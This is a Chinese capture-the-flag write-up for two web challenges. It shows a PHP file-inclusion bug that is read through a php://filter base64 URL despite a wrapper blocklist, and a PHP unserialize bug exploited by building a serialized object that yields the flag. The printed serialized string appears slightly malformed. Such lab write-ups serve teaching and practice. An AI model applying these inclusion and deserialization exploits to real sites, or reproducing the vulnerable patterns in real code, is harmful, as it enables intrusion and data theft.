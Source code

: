 <a name="bf11fb7e"></a>
## web/Moe include
hint.php提示使用伪协议，那就读一下index.php<br />**web.moectf.online/include/?file=php://filter/read=convert.base64-encode/resource=index.php**
```php
<?php
error_reporting(0);
$file = $_GET["file"];
if(stristr($file,"php://input") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")) {
	exit('get out!');
}
if($file){
  include($file);
}
else{
  echo '<a href="?file=hint.php">do not click</a>';
?>
```
if(stristr($file,"php://input") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")<br />表示过滤这些伪协议<br />

<a name="uJLE8"></a>
## web/Moe unserialize
```php
<?php
error_reporting(0);
class Moe {
    public $a;
    protected $b;
    private $c;

    function __destruct() {
        if ($this->a === '1' && $this->b === '2' && $this->c === '3') {
            include 'flag.php';
            die($flag);
        }
    }
}
$moe = $_GET['flag'];
unserialize($moe);
?>
有一天，赤道企鹅在愉快的使用vim给学弟挖坑，突然伴随着身体的一阵抽搐，电脑死机了。企鹅悲痛欲绝，聪明的你能帮助企鹅找到他挖的坑吗？
```
反序列化漏洞成因<br />[https://www.cnblogs.com/ichunqiu/p/10484832.html](https://www.cnblogs.com/ichunqiu/p/10484832.html)<br />构造反序列化脚本
```php
<?php
class Moe {
    public $a = '1';
    protected $b = '2';
    private $c = '3';
}
$a = serialize(new Moe);
echo $a;
?>
```
得到序列化字符串
```php
O:3:"Moe":3:{s:1:"a";s:1:"1";s:4:"*b";s:1:"2";s:6:"Moec";s:1:"3";}
```